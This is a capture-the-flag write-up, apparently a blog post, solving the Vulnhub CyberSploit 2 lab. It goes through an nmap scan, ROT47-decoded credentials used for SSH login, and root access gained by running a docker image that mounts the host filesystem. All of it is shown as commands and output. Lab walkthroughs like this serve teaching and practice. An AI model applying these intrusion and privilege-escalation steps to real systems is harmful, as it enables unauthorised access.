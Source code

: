 ```yaml
---
title: Vulnhub - CyberSploit 2
description: My writeup on CyberSploit 2 box.
categories:
 - vulnhub
tags: vulnhub rot47 docker
---
```


![](https://www.ubackground.com/_ph/11/175205427.jpg)

Hi all, that was a really silly box. Let's pwn it!

You can find the machine there > [CyberSploit 2](https://www.vulnhub.com/entry/cybersploit-2,511/){:target="_blank"}

## Enumeration/Reconnaissance

Let's start always with nmap.

```
$ ip=192.168.1.19
$ nmap -p- --min-rate 10000 $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-17 00:04 EEST
Nmap scan report for 192.168.1.19 (192.168.1.19)
Host is up (0.00029s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 00:0C:29:56:84:35 (VMware)

Nmap done: 1 IP address (1 host up) scanned in 3.01 seconds
$ nmap -p 22,80 -sC -sV -oN nmap/initial $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-17 00:09 EEST
Nmap scan report for 192.168.1.19 (192.168.1.19)
Host is up (0.00043s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey: 
|   3072 ad:6d:15:e7:44:e9:7b:b8:59:09:19:5c:bd:d6:6b:10 (RSA)
|   256 d6:d5:b4:5d:8d:f9:5e:6f:3a:31:ad:81:80:34:9b:12 (ECDSA)
|_  256 69:79:4f:8c:90:e9:43:6c:17:f7:31:e8:ff:87:05:31 (ED25519)
80/tcp open  http    Apache httpd 2.4.37 ((centos))
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.37 (centos)
|_http-title: CyberSploit2
MAC Address: 00:0C:29:56:84:35 (VMware)
```

## Decoding ROT47 - shell as shailendra

Website has some usernames/passwords:

![](https://i.imgur.com/W7rQkbp.png)

We can see 2 weird strings -> D92:=6?5C2 - 4J36CDA=@:E` that's ROT47 let's decode them using [cyberchef](https://gchq.github.io/CyberChef/)

D92:=6?5C2 -> shailendra

4J36CDA=@:E` -> cybersploit1

Tried them with SSH & i got in! `shailendra:cybersploit1`:

```
$ ssh shailendra@$ip
[shailendra@192 ~]$ whoami
shailendra
```

## shailendra -> root

Now privesc is simple user is member of docker group:

```
[shailendra@192 ~]$ id
uid=1001(shailendra) gid=1001(shailendra) groups=1001(shailendra),991(docker)
```

Let's get root shell:

```
shailendra@192 ~]$ docker run -v /:/hostOS -i -t chrisfosterelli/rootplease
Unable to find image 'chrisfosterelli/rootplease:latest' locally
latest: Pulling from chrisfosterelli/rootplease
a4a2a29f9ba4: Downloading [===================>                               ]  10.86MB/28.56MB
127c9761dcba: Download complete 
d13bf203e905: Download complete                                                                                                                                                         a4a2a29f9ba4: Pull complete 
127c9761dcba: Pull complete 
d13bf203e905: Pull complete 
4039240d2e0b: Pull complete 
16a91ffa6f29: Pull complete 
Digest: sha256:eb6be3ee1f9b2fd6e3ae6d4fda81a80bfdf21aad9bde6f1a5234f1baa58d4bb3
Status: Downloaded newer image for chrisfosterelli/rootplease:latest

You should now have a root shell on the host OS
Press Ctrl-D to exit the docker instance / shell
sh-4.4# whoami;id
root
uid=0(root) gid=0(root) groups=0(root)
```

Now let's read the flag:

```
sh-4.4# cat flag.txt 
 __    ___   _      __    ___    __   _____  __  
/ /`  / / \ | |\ | / /`_ | |_)  / /\   | |  ( (` 
\_\_, \_\_/ |_| \| \_\_/ |_| \ /_/--\  |_|  _)_) 

 Pwned CyberSploit2 POC

share it with me twitter@cybersploit1

              Thanks ! 
```

Meme :P
